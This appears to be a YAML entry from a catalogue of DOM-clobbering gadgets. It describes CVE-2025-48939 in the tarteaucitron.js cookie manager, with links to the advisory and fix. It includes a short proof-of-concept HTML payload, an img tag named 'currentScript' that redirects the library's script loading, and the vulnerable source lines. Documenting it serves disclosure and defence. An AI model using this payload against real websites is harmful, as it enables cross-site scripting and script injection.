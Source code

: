 ```yaml
---
description: 👋 Hey, I'm Amauri, a french dev that build a GDPR friendly cookie manager. tarteaucitron was initially a simple script for my personal blog (in 2013), a few months later, the Github repository is opened and tarteaucitron is now reliable and recognized.
github: AmauriC/tarteaucitron.js
gadgets:
  ≤v1.21.0:
    cve: CVE-2025-48939
    authors:
      - github:Rudloff
    tags:
      - chrome-browser
      - safari-browser
      - img-tag
      - name-attr
      - src-attr
      - before-func-call
    pocs:
      - description: The [tarteaucitron.js](https://github.com/AmauriC/tarteaucitron.js) library was using the `document.currentScript` property to load scripts.
        code: |
          <!-- user input -->
          <img name="currentScript" src="[current-location]/assets/xss/index.js">

          <script src="https://cdnjs.cloudflare.com/ajax/libs/tarteaucitronjs/1.21.0/tarteaucitron.js"></script>
          <script>
            tarteaucitron.init({});
          </script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/AmauriC/tarteaucitron.js/blob/42504c4a690352bb86cbae7100d78629208ec399/tarteaucitron.js#L4">https://github.com/AmauriC/tarteaucitron.js/blob/42504c4a690352bb86cbae7100d78629208ec399/tarteaucitron.js#L4</a>

      ```javascript
      var scripts = document.getElementsByTagName('script'),
        tarteaucitronPath = (document.currentScript || scripts[scripts.length - 1]).src.split('?')[0],
        tarteaucitronForceCDN = (tarteaucitronForceCDN === undefined) ? '' : tarteaucitronForceCDN,
        tarteaucitronUseMin = (tarteaucitronUseMin === undefined) ? '' : tarteaucitronUseMin,
        cdn = (tarteaucitronForceCDN === '') ? tarteaucitronPath.split('/').slice(0, -1).join('/') + '/' : tarteaucitronForceCDN,
        alreadyLaunch = (alreadyLaunch === undefined) ? 0 : alreadyLaunch,
        tarteaucitronForceLanguage = (tarteaucitronForceLanguage === undefined) ? '' : tarteaucitronForceLanguage,
        tarteaucitronForceExpire = (tarteaucitronForceExpire === undefined) ? '' : tarteaucitronForceExpire,
        tarteaucitronCustomText = (tarteaucitronCustomText === undefined) ? '' : tarteaucitronCustomText,
        // tarteaucitronExpireInDay: true for day(s) value - false for hour(s) value
        tarteaucitronExpireInDay = (tarteaucitronExpireInDay === undefined || typeof tarteaucitronExpireInDay !== "boolean") ? true : tarteaucitronExpireInDay,
        timeExpire = 31536000000,
        tarteaucitronProLoadServices,
        tarteaucitronNoAdBlocker = false,
        tarteaucitronIsLoaded = false;
      ```

      Source: <a target="_blank" href="https://github.com/AmauriC/tarteaucitron.js/blob/42504c4a690352bb86cbae7100d78629208ec399/tarteaucitron.js#L483">https://github.com/AmauriC/tarteaucitron.js/blob/42504c4a690352bb86cbae7100d78629208ec399/tarteaucitron.js#L483</a>

      ```javascript
        // Step 1: load css
        if ( !tarteaucitron.parameters.useExternalCss ) {
            linkElement.rel = 'stylesheet';
            linkElement.type = 'text/css';
            linkElement.href = cdn + 'css/tarteaucitron' + (useMinifiedJS ? '.min' : '') + '.css';
            document.getElementsByTagName('head')[0].appendChild(linkElement);
        }

        // Step 2: load language and services
        tarteaucitron.addInternalScript(pathToLang, '', function () {
      ```
    links:
      - https://github.com/advisories/GHSA-q43x-79jr-cq98
      - https://github.com/AmauriC/tarteaucitron.js/commit/230a3b69d363837acfa895823d841e0608826ba3
---
```

